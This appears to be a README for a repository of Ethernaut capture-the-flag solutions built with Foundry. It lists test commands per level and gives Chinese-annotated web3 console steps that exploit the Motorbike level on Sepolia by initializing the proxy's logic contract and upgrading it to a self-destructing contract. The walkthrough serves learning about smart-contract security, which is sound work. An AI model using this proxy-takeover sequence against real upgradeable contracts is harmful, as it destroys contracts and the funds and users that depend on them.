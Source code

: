 ```shell
forge test --match-path ./test/Fallback.t.sol
forge test --match-path ./test/Fallout.t.sol
forge test --match-path ./test/CoinFlip.t.sol
forge test --match-path ./test/Telephone.t.sol
forge test --match-path ./test/Token.t.sol
forge test --match-path ./test/Delegation.t.sol
forge test --match-path ./test/Force.t.sol
forge test --match-path ./test/Vault.t.sol
forge test --match-path ./test/King.t.sol
forge test --match-path ./test/Reentrancy.t.sol
forge test --match-path ./test/Elevator.t.sol
forge test --match-path ./test/Privacy.t.sol
forge test --match-path ./test/GatekeeperOne.t.sol
forge test --match-path ./test/GatekeeperTwo.t.sol
forge test --match-path ./test/NaughtCoin.t.sol
forge test --match-path ./test/Preservation.t.sol
forge test --match-path ./test/Recovery.t.sol
forge test --match-path ./test/MagicNumber.t.sol
forge test --match-path ./test/AlienCodex.t.sol
forge test --match-path ./test/Denial.t.sol
forge test --match-path ./test/Shop.t.sol
forge test --match-path ./test/Dex.t.sol
forge test --match-path ./test/DexTwo.t.sol
forge test --match-path ./test/PuzzleWallet.t.sol
forge test --match-path ./test/Motorbike.t.sol
forge test --match-path ./test/DoubleEntryPoint.t.sol
forge test --match-path ./test/GoodSamaritan.t.sol



forge script script/MotorbikeDeploy.s.sol --rpc-url $RPC_URL_LOCAL --broadcast
forge script script/MotorbikeInteract.s.sol --rpc-url $RPC_URL_LOCAL --broadcast

forge install OpenZeppelin/openzeppelin-contracts@v3.4.2 --no-commit (solidity 0.6)
forge install OpenZeppelin/openzeppelin-contracts@v4.8.2 --no-commit (solidity 0.6)
```

Motorbike web 实现(sepolia 网络)

```
获取当前逻辑合约的地址
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

0x000000000000000000000000e414f6cb24cf364877fa306b3e488f3204650721
返回的值将为 32 个字节，其中最右边的 20 个字节将是地址。梳理一下，并在其左侧附加 0x。
我们得到 0xe414f6cb24cf364877fa306b3e488f3204650721

let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")
let implAddr = "0xe414f6cb24cf364877fa306b3e488f3204650721"
await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})

remix 部署 Destructive
0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168

let kill = web3.eth.abi.encodeFunctionSignature("killed()")
let callStr = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168",kill]);

await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})
```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
